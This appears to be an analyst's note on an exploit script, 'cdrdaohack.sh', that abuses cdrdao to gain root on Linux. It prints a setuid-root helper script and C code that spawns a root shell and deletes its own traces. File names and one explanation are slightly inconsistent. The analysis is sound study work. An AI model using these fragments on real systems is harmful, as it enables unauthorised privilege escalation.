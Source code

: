 This script is called `## cdrdaohack.sh by Jens "atomi" Steube` 
cdrdao is a project: Disk-At-Once Recording of Audio and Data CD-Rs/CD-RWs
It looks like a demo. 

## Summary
1. It set some paths, `/etc/cron.d/cdr`, `/usr/bin/cdrdao`, and `$HOME/.cdrdao`. 
2. Then it test the path of `cdrdao`. 
3. Then it uses `cat` to write a hard-coded code of C into a file `/tmp/dash.c`. 
4. It uses `cat` to write a hard-coded code of shell into a file `/tmp/dao.sh`. 
5. It Change permission. 
6. Backup original file (this is not suspicious)
7. make symlink using `ln -s`. 
8. Execute `cdrdao`, which is a normal program. 
9. Wait `/tmp/daosh` to set-user-id is set. 
10. execute `/tmp/daosh`. 

The `/tmp/daosh` is as follows.
```
cc -o /tmp/daosh /tmp/daosh.c >/dev/null 2>&1
chown root /tmp/daosh >/dev/null 2>&1
chgrp root /tmp/daosh >/dev/null 2>&1
chmod 6755 /tmp/daosh >/dev/null 2>&1
exit 0
```
It compiles `/tmp/daosh.c` and changes the permission. 

The source code of `/tmp/dash.c` is as follows.
```
int main () { 
setuid(0); setgid(0);
unlink("/tmp/dao.sh");
unlink("/tmp/daosh.c");
unlink("/etc/cron.d/cdr");
unlink("$HOME/.cdrdao");
execl("/bin/bash","bash","-i",0);
}
```
This code set uid to root. The `unlink` systemcall deletes a file name from the file system (removing evidence?). 
The `execl` system call replace the current process image with a specified image (`/bin/bash` in this case).  
`bash -i 0` means run `bash` in interactive mode and using the standard input as the input. 


# Notes
1. This looks like a demonstration of the vulnerability of `cdrdao`. It seems the `cdrdao` can make the shell to be executed in root. 
2. It does not match DW-CH-EXE-RM pattern completely. What it looks like is change permission and execute a C program. 


----------------------------------------------------------
